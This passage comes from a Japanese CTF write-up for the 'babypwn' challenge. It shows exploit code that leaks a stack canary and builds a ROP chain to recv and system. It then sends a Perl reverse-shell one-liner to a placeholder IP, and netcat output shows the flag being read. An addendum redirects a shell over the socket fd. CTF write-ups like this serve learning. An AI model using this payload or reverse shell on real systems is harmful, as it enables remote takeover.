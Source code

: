 ```python
log.info('leaked canary: 0x%x' % canary)

# send ROP
payload = ''
payload += 'A' * buffer_size
payload += p32(canary)
payload += 'BBBB'                   # 0x8048b83:        pop    ebx
payload += 'BBBB'                   # 0x8048b84:        pop    edi
payload += p32(addr_bss + 0x800)    # 0x8048b85:        pop    ebp
payload += p32(addr_recv_plt)       # recv(fd, addr_bss, 0x100, 0)
payload += p32(addr_system_plt)     # system(addr_bss)
payload += p32(socket_fd)
payload += p32(addr_bss)
payload += p32(0x100)
payload += p32(0)
echo(payload)

exit_app()

# send connect-back shell one-liner
r.clean()
r.sendline('perl -e \'use Socket;$i="your.global.ip.address";$p=13895;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'\x00')
```

    $ nc -l -v 192.168.xxx.xxx 13895
    Listening on [192.168.xxx.xxx] (family 0, port 13895)
    Connection from 110.10.212.130 59276 received!
    $ ls
    babypwn
    flag
    $ cat flag
    FLAG{Good_Job~!Y0u_@re_Very__G@@d!!!!!!^.^}
    $ %                                            

BabyPwn という名前の割にはおもしろい要素がたくさん詰め込まれている感じで, 解いててめちゃくちゃ楽しかった. 気づいたら50点にまで下がっててつらい...

### 2017/02/20 追記

socket の fd が特定できているので, わざわざ connect-back shell を立ち上げなくとも `/bin/sh -i <&fd >&fd 2>&fd` を実行させればいいってことに気づいた. 上のスクリプトの最後の行を次のように変更することで, とりあえずローカルでシェルを取ることができた.

```python
r.sendline('/bin/sh -i <&{0} >&{0} 2>&{0}'.format(socket_fd))

r.interactive()
```

    $ ./exploit2.py
    [+] Opening connection to localhost on port 8181: Done
    [*] leaked canary: 0x6e6b8100
    [*] Switching to interactive mode
    sh-4.4$ $ ls
    ls
    babypwn
    exploit2.py
    exploit.py
    flag.txt
    out
    peda-session-babypwn.txt
    sh-4.4$ $ 
    [*] Closed connection to localhost port 8181


[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.